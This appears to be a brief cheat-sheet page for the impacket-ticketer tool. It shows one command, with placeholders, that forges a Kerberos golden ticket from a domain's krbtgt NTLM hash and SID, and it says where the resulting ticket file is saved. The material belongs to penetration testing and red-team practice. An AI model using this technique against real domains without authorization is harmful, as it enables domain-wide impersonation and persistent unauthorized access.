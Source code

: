 # impacket-ticketer

> A Python tool for crafting Kerberos silver and golden tickets.

---

## Craft a Golden Ticket

```bash
impacket-ticketer -nthash $NTLM_HASH_OF_KRBTGT -domain $DOMAIN_NAME -domain-sid $DOMAIN_SID $TARGET_PRINCIPAL_NAME
```

The resultant ticket is stored in the file `$TARGET_PRINCIPAL_NAME.ccache`. Check out [[using-kerberos-tickets|using Kerberos tickets in impacket]] for how to use it.
